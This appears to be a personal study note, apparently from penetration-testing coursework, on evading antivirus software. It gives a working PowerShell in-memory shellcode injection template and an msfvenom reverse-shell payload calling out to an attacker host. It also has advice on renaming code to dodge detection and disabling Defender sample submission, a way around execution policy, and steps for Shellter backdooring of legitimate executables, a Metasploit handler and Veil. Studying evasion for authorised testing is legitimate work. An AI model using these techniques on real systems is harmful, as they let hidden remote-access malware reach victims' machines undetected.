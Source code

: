 
#### Testing for AV evasion

We need to use AntiScan.Me to scan our own malware/payloads to prevent submissions to AV vendors like VirusTotal does.

We must also ensure Automatic Sample submission is disabled within out windows defender while developing and testing our malware to prevent the cloud engine learning about and creating heuristics for said malware. Only once we are sure the AV evasion is affective for our malware can we turn on automatic sampling again.


#### Evading with Thread Injection

Antivirus  typically enforce threat quarantine by blocking any file system operation at the kernel level or story malicious samples in encrypted storage only accessible to AV software.

We may be able to bypass antivirus with PowerShell. Powershell can interact with the windows API. We can use this to implement an in-memory injection process in a powershell script. 

The benefits of using a script like this rathe than a PE is its difficult for AV  to determine if a script is malicious as its run inside an interpreter and the script itself isn't executable code. Some AV handle this better than others.

If a script like this is marked a malicious it can be easily changed. AV checks for variable names, comments and logic - which can be easily altered. If you run the script through a scanner and its detected, change obvious variables names where possible and change structure if possible, and any language that could be seen as nefarious.

Basic memory injection template:

```
$code = '
[DllImport("kernel32.dll")]
public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

[DllImport("kernel32.dll")]
public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

[DllImport("msvcrt.dll")]
public static extern IntPtr memset(IntPtr dest, uint src, uint count);';

$winFunc = 
  Add-Type -memberDefinition $code -Name "Win32" -namespace Win32Functions -passthru;

[Byte[]];
[Byte[]]$sc = <place your shellcode here>;

$size = 0x1000;

if ($sc.Length -gt 0x1000) {$size = $sc.Length};

$x = $winFunc::VirtualAlloc(0,$size,0x3000,0x40);

for ($i=0;$i -le ($sc.Length-1);$i++) {$winFunc::memset([IntPtr]($x.ToInt32()+$i), $sc[$i], 1)};

$winFunc::CreateThread(0,0,$x,0,0,0);for (;;) { Start-sleep 60 };
```

payload used:

```
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.50.1 LPORT=443 -f powershell -v sc
```

*be careful and launch the correct architecture for powershell - x86

to bypass execution policy error we can attempt to get information about execution policy for the user and change it:

`Get-ExecutionPolicy -Scope CurrentUser` - check the scope of policy
`Set-ExecutionPolicy -ExecutionPolicy Unrestricted -Scopr CurrentUser` - set the execution policy to unrestricted to enable execution rights
`repeat step 1 to confirm successful change`

#### Automating the Process

##### Shellter

We can make use of Shellter to bypass AV. It works by using techniques to backdoor a valid and non-malicious executable file with a shellcode payload.

necessary installations:

`sudo apt install shellter`
`sudo apt install wine`
`dpkg --add-architecture i386 && apt-get update && apt-get install wine32`

Allows manual or auto mode - manual gives are more granular control over the PE execution and injection path when auto fails.

`when selecting a PE to inject malicious payload - it is best practice to pick a new, less scrutinized application`

stealth mode enables execution flow of the PE to return to normal after our shell code is executed.

`msfconsole -x "use exploit/multi/handler;set payload windows/meterpreter/reverse_tcp;set LHOST 192.168.50.1;set LPORT 443;run;"`


##### Veil

Veil is a tool designed to generate Metasploit payloads that bypass common anti-virus solutions.

Veil is useful for utilizing ps1 scripts as payloads - ps1 scripts will open using notepad when double clicked (not executed) so veil will translate the ps1 script into a .bat file which can be used to gain a shell (this is generated using veil).

```
apt -y install veil
/usr/share/veil/config/setup.sh --force --silent
```

run veil and generate payload.